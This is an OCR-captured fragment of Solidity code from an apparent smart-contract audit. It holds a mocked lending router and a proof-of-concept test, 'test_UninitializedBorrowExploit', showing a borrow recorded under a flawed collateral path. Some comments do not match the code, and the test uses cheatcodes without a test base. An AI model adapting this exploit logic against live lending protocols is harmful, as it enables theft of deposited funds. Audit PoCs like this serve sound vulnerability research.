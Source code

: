 ```solidity

        require(collateral >= borrowAmount, "Insufficient collateral");

        enterMarkets(_lToken);

        require(LTokenMock(_lToken).borrow(_amount) == 0, "Borrow failed");

        // IERC20(_token).transfer(msg.sender, _amount); // Mocked transfer

        lendStorage.distributeBorrowerLend(_lToken, msg.sender);

        uint256 currentBorrowIndex = LTokenMock(_lToken).borrowIndex();
        if (currentBorrow.borrowIndex != 0) {
            uint256 _newPrinciple = (currentBorrow.amount * currentBorrowIndex) / currentBorrow.borrowIndex;
            lendStorage.updateBorrowBalance(msg.sender, _lToken, _newPrinciple + _amount, currentBorrowIndex);
        } else {
            lendStorage.updateBorrowBalance(msg.sender, _lToken, _amount, currentBorrowIndex);
        }

        lendStorage.addUserBorrowedAsset(msg.sender, _lToken);

        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
}

contract PoC_Test {
    LendStorageMock public lendStorage;
    LTokenMock public lToken;
    address public token;
    CoreRouter public router;
    address public alice = address(0x1);

    constructor() {
        lendStorage = new LendStorageMock();
        lToken = new LTokenMock();
        token = address(0x2);
        router = new CoreRouter(address(lendStorage), address(lToken), token);
    }

    function test_UninitializedBorrowExploit() external {
        vm.startPrank(alice);
        // Alice borrows 800 USDC with 800 USD collateral
        router.borrow(800e6, token); // 800 USDC in 6-decimal format
        vm.stopPrank();

        uint256 recordedBorrow = lendStorage.getBorrowBalance(alice, address(lToken)).amount;
        assert(recordedBorrow == 800e6); // Borrow succeeds despite insufficient collateral check
    }
}
```
